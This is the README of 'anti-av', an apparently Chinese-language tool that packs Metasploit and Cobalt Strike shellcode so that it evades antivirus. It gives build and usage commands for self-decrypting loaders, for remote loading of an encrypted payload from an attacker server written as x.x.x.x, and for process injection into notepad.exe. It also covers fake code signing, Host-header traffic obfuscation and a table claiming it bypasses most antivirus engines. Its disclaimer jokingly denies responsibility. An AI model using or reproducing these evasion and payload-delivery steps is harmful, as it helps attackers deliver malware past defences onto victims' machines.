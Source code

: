 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。


## TODO

- [ ] 合入SysWhispers直接调用syscall asm
- [ ] 支持加载任意pe文件实现免杀


## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)


## 安装

### Requirement

```bash
1、建议使用Mac或linux环境
2、安装交叉编译 mingw64
3、安装签名 openssl、osslsigncode
```

### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

./anti-av -h
Usage of ./anti-av:
  -domain string
        代码签名,需填写实际存在的域名 (default "baidu.com")
  -e    生成payload.e
  -ho string
        远程加载payload.e时,在GET请求头中替换host实现流量混淆 (default "wwww.baidu.com")
  -inject
        开启注入模式, shellcode注入到Notepad.exe
  -l string
        支持的加载类型: sc (default "sc")
  -os string
        OS: windows,linux (default "windows")
  -p string
        Payload: 
                1.支持 远程远程加载payload.e(参考payload.e生成实例)
                2.支持MSF payload generate by '-f raw'.
                3.支持CS raw payload.
                 (default "payload.bin")     

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密   | 无                      | ./anti-av -p ~/Desktop/payload.bin                         |
| 远程加载 | 无                      | 1、生成payload.e<br />./anti-av  -e -p ~/Desktop/payload.bin    <br /><br />2、上传payload.e到公共下载服务<br />略<br /><br />3、制作加载器<br />./anti-av -p http://x.x.x.x/payload.e |
| 进程注入          | 会强制注入到notepad.exe | ./anti-av -p ~/Desktop/payload.bin -inject 或<br /><br />./anti-av -p http://x.x.x.x/payload.e  -inject |
|  |  |  |



## 注意

* cs生成raw格式64位 payload，需要勾选x64

  

## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 | window defender |
| ---- | ---- | ----------- | -------- | --------------- |
| 1/68 | √    | √           | √        | √               |
|      |      |             |          |                 |

